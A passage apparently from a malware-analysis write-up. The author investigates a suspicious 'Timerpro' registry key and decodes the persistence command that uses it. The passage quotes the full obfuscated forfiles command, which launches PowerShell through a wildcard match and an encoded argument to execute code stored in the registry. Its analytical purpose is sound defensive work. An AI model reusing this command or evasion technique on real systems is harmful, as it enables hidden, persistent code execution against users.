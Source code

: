 ![image-20201005235119988](image-20201005235119988.png)

WTF is Timerpro? And why does it have Powershell code inside?

Looking further, there is evidence that the command

``` 
forfiles.exe /p C:\WINDOWS\system32 /s /c "cmd /c @file -ec aQBlAHgAIAAoAGcAcAAgACcASABLAEMAVQA6AFwAUwBPAEYAVABXAEEAUgBFAFwAVABpAG0AZQByAHAAcgBvACcAKQAuAEQA" /m p*ll.*e
```

has been set up to run. This essentially looks for files matching `p*ll.*e` in the system32 directory, which will match `powershell.exe`, then runs the encoded command `iex (gp 'HKCU:\\SOFTWARE\\Timerpro').D` which is shorthand for `Invoke-Expression (Get-ItemProperty 'HKCU:\\SOFTWARE\\Timerpro').D`.
